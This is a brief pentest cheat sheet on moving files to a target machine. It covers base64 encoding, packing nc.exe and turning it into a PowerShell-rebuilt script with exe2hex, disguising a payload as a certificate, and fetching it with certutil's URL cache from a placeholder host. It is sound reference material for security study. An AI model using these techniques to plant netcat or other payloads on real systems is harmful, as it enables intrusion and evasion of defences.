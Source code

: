 # ⭕ Encode / Decode Files

## <mark style="color:red;">Base 64 encode/decode</mark>

#### Linux

```bash
base64 -w0 <file> #Encode file
base64 -d file #Decode file
```

#### Windows

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

## <mark style="color:red;">Windows Downloads with exe2hex and PowerShell</mark>

```
cp /usr/share/windows-resources/binaries/nc.exe .

upx -9 nc.exe  >>> decrease the file size by 50%
```

#### convert nc.exe to a Windows script (.cmd) to run on the Windows machine, which will convert the file to hex and instruct powershell.exe to assemble it back into binary

```
exe2hex -x nc.exe -p nc.cmd
```

copy to clipboard directly:

```
cat nc.cmd | xclip -selection clipboard
```

paste it into the windows shell

## <mark style="color:red;">Certutil</mark>

Base64 encode the binary file outside

```
$raw = Get-Content -Path c:\nc.exe -Encoding Byte
$b64 = [System.Convert]::ToBase64String($raw)
$begin= "-----BEGIN CERTIFICATE-----"
$end = "-----END CERTIFICATE-----"
"$begin$b64$end" | Out-File c:\nc.txt
```

Download via Notepad; certutil to write:

```
certutil.exe -decode nc.txt nc.exe
```

we can use certutils cache feature to download the file:

```
certutil.exe –urlcache -split –f "http://SITE/nc.crt" nc.txt
```

## <mark style="color:red;">Base 64 Encoding + Copy & Paste</mark>

The trick is by first encoding the file in Base 64. We can do this by using Python:

```
python -c 'print(__import__("base64").b64encode(open("file", "rb").read()))'
```

Then, on the target, we can copy and paste the string into a .txt file with

```
echo "string" > output.txt
```

and use base64 to decode the file, with

```
base64 -d output.txt > output-file
```

If Python is available, you can also run

```
python -c 'print(__import__("base64").b64decode(open("string.txt", "r").read()))' > out-file
```
